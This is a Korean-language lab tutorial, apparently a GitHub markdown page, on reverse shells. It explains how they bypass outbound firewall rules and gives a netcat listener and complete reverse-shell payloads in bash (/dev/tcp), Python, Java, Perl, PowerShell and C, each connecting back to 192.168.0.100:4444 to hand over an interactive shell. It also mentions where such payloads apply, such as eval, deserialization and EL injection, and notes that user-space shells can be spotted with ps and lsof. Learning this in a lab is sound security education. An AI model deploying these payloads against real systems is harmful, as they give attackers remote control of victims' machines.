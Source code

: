# Reverse Shell 실습  
### 리버스 쉘(Reverse Shell)

- 대상 서버가 공격자에게 접속하여, 대상 서버의 쉘을 공격자에게 전달하는 연결 방식이다.
- 쉽게 말해, 공격 대상 서버가 공격자 서버에 접속하도록 해서 얻는 쉘이다.  
<br>

방화벽 우회, 탐지 우회가 비교적 쉽고, 리스닝 중인 포트가 없어도 된다는 점 등 여러 이점이 있어  
리버스 쉘은 공격자에게 매력적으로 다가갈 수 밖에 없다.  

보통 아웃바운드 규칙은 인바운드 규칙보다 느슨한 경우가 대부분이기에  
대상 서버에 명령만 내릴 수 있다면, 공격자는 대상 서버가 외부 공격자 시스템에 연결하게 만들어,   
방화벽을 우회하고 안정적인 원격 제어 채널을 확보할 수 있다.    
<br>

본격적인 리버스 쉘 실습 전에 Local Host 의 주소를 알아야한다.  
우선 `sudo apt install net-tools`을 설치해준 후 `ifconfig` 명령어로 내 IP를 확인해주자.  
<br>

### **Bash Reverse Shell**

- `dev` 파일 시스템을 통해 TCP/UDP 연결을 파일처럼 다룰 수 있는 특수 기능을 이용하여 쉘에 연결한다.  

/dev 디렉토리는 리눅스에서  장치 파일이 위치하는 가상 파일 시스템이다.  

이 디렉토리에 있는 파일들은 커널이 제공하는 인터페이스로 볼 수 있는데,  
(하드웨어 장치나 가상 장치를 파일처럼 다루게 해주는 입출력 통로라고 보면 됨)  

이걸 이용하여 쉘에 연결할 수 있다.  
<br>

**동작 방법 (공격자 PC | VM 외부 Local Host 에서 실행)**  
```bash
nc -lvnp 4444
```

→ Local IP 주소에서 4444 포트를 Listen 상태로 만든다.  
<br>

**동작 방법 (VM Server 에서 실행)**  
```bash
/dev/tcp/[IP]/[PORT]
```

→ 위 명령어로 `/dev/tcp/host/port`를 입력하면 bash가 `host:port`로 TCP 연결을 시도한다.  
<br>

**VM Server 에서 실행 명령어**  
```bash
bash -i >& '/dev/tcp/[VM 외부 Local Host IP 주소]/[Listen 중인 포트] 0>&1'
```

→ 위 명령어는 `>&`로 표준 출력과 에러를 TCP로 보내고 `0>&1`로 표준 입력을 표준 출력과 동일 스트림에 연결한 것이다.  

쉽게 말해서 쉘의 입출력을 TCP 연결에 붙여서 원격에서 터미널에 직접 앉은 것처럼 작동하게 만든다는 것이다.  

이제 내 IP 주소에 해당 명령어를 쳐보면  
<br>

<img src="https://github.com/user-attachments/assets/de78db35-fbba-446c-8401-6903b4de34cb" width=500>
<img src="https://github.com/user-attachments/assets/9ea066be-f89d-49c3-a805-ae0fd69930a7" width=500>

이렇게 로컬 환경에서 VM server의 리버스 쉘을 획득한 것을 확인할 수 있다.   

<br>

### **여러 환경에서의 취약점**  
- 리버스 쉘은 여러 코드 환경에서 다양한 방식으로 실행될 수 있다.
- 취약점이 발견된 곳이라면 언제든 작동할 수 있다는 것을 알아두자
<br>
 
**예시 (잘 알려진 Reverse Shell 코드)**  
**Python**  
→ 취약한 eval 혹은 RCE 상황

```python
import socket,subprocess,os
s=socket.socket(); s.connect(("192.168.0.100",4444))
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2)
subprocess.call(["/bin/bash"])
```

**Java**

→ EL(Expression Language) injection, Deserialization 취약점 등

```java
Runtime.getRuntime().exec("bash -c 'bash -i >& /dev/tcp/192.168.0.100/4444 0>&1'");
```

**Perl**

→ 시스템 명령 실행 함수가 오염된 경우

```perl
perl -e 'use Socket;$i="192.168.0.100";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

**PowerShell**

→ Macro, Invoke-Expression, WMI 등

```powershell
$client = New-Object System.Net.Sockets.TCPClient("192.168.0.100",4444);
$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + "PS " + (pwd).Path + "> ";
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()}
```

**C**

→system 명령

```c
#include <stdlib.h>
int main() {
    system("bash -i >& /dev/tcp/192.168.0.100/4444 0>&1");
    return 0;
}
```

### 마무리

이번에 다룬 예시들은 전부 유저 공간에서 동작한다. 

추후에 다룰 내용이지만 이러한 프로세스들은 ps, top, lsof 등으로 탐지가 가능하다.
OS 커널 자체를 수정하거나 우회하진 않기 때문에 비교적 쉽게 탐지가 가능하지만,

커널 공간에서 동작하는 리버스 쉘은 탐지하기가 어다. 
마지막 챕터에서 이러한 문제점을 다뤄보며 실습을 해볼 예정이다.

